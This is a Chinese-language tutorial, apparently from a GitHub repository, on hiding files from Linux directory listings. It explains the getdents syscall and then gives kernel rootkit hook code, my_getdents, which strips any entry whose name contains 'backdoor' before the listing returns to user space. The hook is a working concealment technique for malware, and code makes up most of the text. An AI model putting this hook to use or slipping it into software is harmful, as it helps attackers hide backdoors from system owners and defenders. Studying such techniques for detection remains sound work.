

# 隐藏文件和隐藏进程

## 1 隐藏文件

### 1.1 文件遍历的实习

文件遍历主要是通过系统调用`getdents`和`getdents64`来完成:

查看`man page`:

```c
int getdents(unsigned int fd, struct linux_dirent *dirp,
                    unsigned int count);


/* The system call getdents() reads several linux_dirent structures from the directory referred to by the open file descriptor fd into the buffer pointed to by dirp.  The argument count specifies the size of that buffer. */
```

查看一下`struct linux_dirent`:

```c
struct linux_dirent {
               unsigned long  d_ino;     /* Inode number */
               unsigned long  d_off;     /* Offset to next linux_dirent */
               unsigned short d_reclen;  /* Length of this linux_dirent */
               char           d_name[];  /* Filename (null-terminated) */
                                   /* length is actually (d_reclen - 2 -
                                      offsetof(struct linux_dirent, d_name) */
               /*
               char           pad;       // Zero padding byte
               char           d_type;    // File type (only since Linux 2.6.4;
                                         // offset is (d_reclen - 1))
               */
           }
```

- d_ino is an inode number.
- d_off    从文件开始到下一个linux_dirent的距离
- d_reclen 整个linux_dirent的大小
-  d_name  一个以null结尾的文件名



关于`getdents`系统调用的定义:

```c
// fs/readdir.c
SYSCALL_DEFINE3(getdents, unsigned int, fd,
		struct linux_dirent __user * dirent, unsigned int count)
{
	struct fd f;
	struct linux_dirent __user * lastdirent;
	struct getdents_callback buf = {
		.ctx.actor = filldir,
		.count = count,
		.current_dir = dirent
	};
    ...
	error = iterate_dir(f.file, &buf.ctx);
    ...
}
```

由于文件在一块连续的内存空间中存储的，所以我们修改getdents系统调用的时候，可以匹配文件名，然后在kdirp中释放掉这段内存即可

hook代码：

```c
asmlinkage long my_getdents(unsigned int fd, struct linux_dirent __user *dirp,
                unsigned int count){

        struct linux_dirent *kdirp,*kdirp2;

        long value,tlen;
        long len = 0;
        value = (*old_getdents) (fd, dirp, count);
        tlen = value;
    
    	// 将用户态的数据拷贝到内核态
        kdirp = (struct linux_dirent *) kmalloc(tlen, GFP_KERNEL);
        kdirp2 = kdirp;
        copy_from_user(kdirp, dirp, tlen);

        while(tlen > 0)
        {
                len = kdirp->d_reclen;
                tlen = tlen - len;

                if(strstr(kdirp->d_name,"backdoor") != NULL)
                {
                        printk("find file\n");
                        memmove(kdirp, (char *) kdirp + kdirp->d_reclen, tlen);
                        value = value - len;
                        printk(KERN_INFO "hide successful.\n");
                }
                else if(tlen) 
                        kdirp = (struct linux_dirent *) ((char *)kdirp + kdirp->d_reclen);
        }
        copy_to_user(dirp, kdirp2, value);

        //printk(KERN_INFO "finished hacked_getdents.\n");
        return value;
}
```

